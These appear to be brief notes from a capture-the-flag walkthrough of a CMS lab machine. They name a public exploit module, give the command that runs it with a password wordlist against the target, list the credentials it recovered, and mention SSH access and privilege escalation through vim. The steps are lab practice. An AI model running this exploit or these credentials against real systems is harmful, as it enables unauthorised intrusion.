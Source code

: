- Searchsploit module: php/webapps/46635.py
- Command to crack password
	`python2 exploit.py -u http://$IP/simple --crack -w /usr/share/seclists/Passwords/Common-Credentials/best110.txt`
- User info
	- salt: 1dac0d92e9fa6bb2
	- username: mitch
	- password: secret
	- email: admin@admin.com
- Logged in with ssh using above credentials
- Used vim to privilege escalate
